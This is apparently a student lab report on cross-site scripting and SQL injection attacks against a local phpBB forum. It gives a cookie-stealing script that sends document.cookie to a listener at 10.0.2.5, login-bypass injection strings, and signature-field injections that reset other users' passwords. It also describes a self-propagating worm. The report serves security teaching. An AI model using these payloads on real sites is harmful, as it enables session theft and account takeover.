
\includegraphics[width=.95\textwidth]{gfx/xss/task1.png}

\subsection{Posting a Malicious Message to Display Cookies}
We succeeded in displaying personal cookies with the following code:\\
\begin{center}\texttt{<script>alert(document.cookie);</script>\\Hello Everybody,\\Welcome to this message board.}\end{center}


\includegraphics[width=.95\textwidth]{gfx/xss/task2.png}

\subsection{Stealing Cookies from the Victim's Machine}
Using \texttt{echoserv} program on one of the machines in the same local network as the www server we were able to capture the cookie of a person viewing malicious post:\\

\begin{center}\texttt{Hello Folks,\\<script>document.write('<img src=http://10.0.2.5:5555?c='+ escape(document.cookie) + '   >'); </script>\\This script is to test XSS. Thanks.}\end{center}


\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice.png}\\[1cm]


\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice-cookie-stolen.png}

\subsection{Impersonating the Victim using the Stolen Cookies}
We wrote a \texttt{Java} program which uses stolen cookie to post messages on behalf of cookie owner. The source code is available in \emph{appendix}~\ref{app:java}.\\


\includegraphics[width=.95\textwidth]{gfx/xss/task4-attack-done.png}\\[1cm]


\includegraphics[width=.95\textwidth]{gfx/xss/task4-inspecting-headers.png}\\[1cm]


\includegraphics[width=.95\textwidth]{gfx/xss/task4-see-headers.png}

\subsection{Writing an XSS Worm}
We managed to append XSS worm to message on the forum forging posts on behalf of current logged-in user. The \texttt{JavaScript} source code is available in \emph{appendix}~\ref{app:javasc1}.\\

We also noticed that after refreshing multiple times, the response contains an error message: ``You cannot make another post so soon after your last; please try again in a short while.'' which is a mechanism in phpBB to prevent flooding message boards.


\includegraphics[width=.95\textwidth]{gfx/xss/task5-worm-working}

\subsection{Writing a Self-Propagating XSS Worm}
We also successfully modified the worm in a way that posted message contains the the worm itself. The source code is available in \emph{appendix}~\ref{app:javasc2}.
The worm would post another reply as the user viewing the infected message, and the new reply would also contain the worm code. We expected to see exponential increase in the replies as we viewed the thread, however the mechanism preventing too many posts at a time mentioned in previous part was to an extent preventing this to happen.

We can see that the reply "Attack" was created after that Bob visited the thread, however in the Firebug output now two requests are being made, because the new reply also contains the malicious script.\\

\includegraphics[width=.95\textwidth]{gfx/xss/task6}

Using such an attack, we could easily flood the forums by creating replies and new threads and maximize the probability that other users will see the malicious script and also be ``responsible'' for infecting the website. If the malicious script makes some intensive GET or POST requests, then using such a worm we could cause the denial of service attack. This emphasizes the importance of preventing the XSS by correctly escaping user provided input on the websites.

\section{SQL injection attack}

\subsection{Exploiting the vulnerability in login.php\label{sec:sql:login}}

We were able to login to Alice's account without knowing her password by inputting the following
text into login input box: \texttt{alice' or '1'='1}.\\


\includegraphics[width=.95\textwidth]{gfx/sql/login.png}\\

On the server side when this is applied to PHP code to form the SQL query, the query is changed into:

\lstset{
  captionpos=b,
  frame=single,
  language=SQL,
  breaklines=true,
  label=sql1
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level,
user_login_tries, user_last_login_try
FROM USERS_TABLE
WHERE username = ’alice’ OR 1' = ’1’ AND user_password = ’md5($password)’;
\end{lstlisting}

This query successfully creates a new session for a user without the knowledge about the password.\\

We also tried injecting an update query by inputting into the query
\texttt{bob'; UPDATE phpbb\_users SET user\_password = 'foo' WHERE username ='bob' OR 1='1} 
that was to change Bob's password to ``foo''.\\
The attack failed because MySQL prevents query stacking when using \texttt{mysql\_query} method, we saw the following error:


\includegraphics[width=.95\textwidth]{gfx/sql/updateerr.png}

\subsection{Updating user profile}

Our aim was to change Bob's password using known account of Alice. Bob's user ID is 4 which easy to check as it is shown for example in the URL for sending private messages on the forum. We put the following code into the \emph{signature} field of user Alice: \texttt{Changingbob' WHERE user\_id=4 \#}.\\

We also provide old Alice's password and new password, that will be assigned to Bob. This way we break the following query:
\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sql1
}
\begin{lstlisting}
$sql = "UPDATE " . USERS_TABLE . "
SET " . $username_sql . $passwd_sql . "user_email = '" . $email ."', user_icq = '" . str_replace("\'", "''", $icq) . "', user_website = '" . str_replace("\'", "''", $website) . "', user_occ = '" . str_replace("\'", "''", $occupation) . "', user_from = '" . str_replace("\'", "''", $location) . "', user_interests = '" . str_replace("\'", "''", $interests) . "', user_sig = '" . str_replace("\'", "''", $signature) . "', user_sig_bbcode_uid = '$signature_bbcode_uid', user_viewemail = $viewemail, user_aim = '" . str_replace("\'", "''", str_replace(' ', '+', $aim)) . "', user_yim = '" . str_replace("\'", "''", $yim) . "', user_msnm = '" . str_replace("\'", "''", $msn) . "', user_attachsig = $attachsig, user_allowsmile = $allowsmilies, user_allowhtml = $allowhtml, user_allowbbcode = $allowbbcode, user_allow_viewonline = $allowviewonline, user_notify = $notifyreply, user_notify_pm = $notifypm, user_popup_pm = $popup_pm, user_timezone = $user_timezone, user_dateformat = '" . str_replace("\'", "''", $user_dateformat) . "', user_lang = '" . $user_lang . "', user_style = $user_style, user_active = $user_active, user_actkey = '" . str_replace("\'", "''", $user_actkey) . "'" . $avatar_sql . " WHERE user_id = $user_id";
\end{lstlisting}
Now we can see that Alice's signature changes, but not her password:\\

\includegraphics[width=.95\textwidth]{gfx/sql/changed_bob.png}\\
We also can log in to Bob account using the password we provided in the previous form:\\

\includegraphics[width=.95\textwidth]{gfx/sql/chainging_alice.png}\\

We can also show that we can modify a password without knowing any user's password. We can get access to a user account using first attack (see \emph{section}~\ref{sec:sql:login}). Then we can inject SQL statement in the signature with a new password that is an md5 hash of our choice:\\
For Ted's password: \texttt{', user\_password = \"1a1dc91c907325c69271ddf0c944bc72a WHERE userid = 6 \# '}\\
And that way we can take control on every account and by-pass mechanism in PhpBB that prevents changing the password without providing the old one first.\\

Another interesting finding is that if we create malformed SQL statement, we can debug it since a debug mode is turned on on the server. This allows us to see details of the SQL query without having access to the code. In real production servers debug messages should never be printed for that reason.\\
